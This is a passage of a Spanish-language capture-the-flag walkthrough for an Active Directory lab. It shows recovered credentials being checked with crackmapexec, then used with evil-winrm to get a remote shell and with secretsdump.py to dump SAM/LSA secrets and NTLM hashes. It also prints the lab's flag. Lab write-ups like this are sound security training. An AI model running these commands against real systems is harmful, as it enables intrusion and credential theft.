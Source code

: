 {:.note}
Inspeccionando el archivo tenemos que strUserNTName = `a-whitehat`y strPassword = `bNdKVkjv3RR9ht`.

Con crackmapexec comprobamos si las credenciales son validad.

```bash
crackmapexec smb 10.10.206.89 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-30-14.png){:.lead width="800" height="100" loading="lazy"}

Podemos conectarnos a la maquina y obner la flag que se encuentra en el direcctorio 

`/Desktop/user.txt`, es `THM{726b7c0baaac1455d05c827b5561f4ed}`.

```bash
evil-winrm -i 10.10.244.143 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```

![list](/assets/img/vulnnet/Kali-2022-09-19-17-37-50.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Tendremos que escalar privilegios para obtener la otra flag.

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

[reverse-shell]: https://www.revshells.com/

***
## Escalacion de privilegios 

Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles 

vectores para escalar de privilegios.

En este caso usaremos la herramienta [secretsdump.py], este script se encarga de realizar 

un volcado completo de los SAM/LSA Secrets, credenciales cacheadas, información sensible 

almacenada en el registro y los hashes NTLM del sistema.

[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.


```bash
secretsdump.py vulnnet-rst.local/a-whitehat@10.10.244.143
```


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.
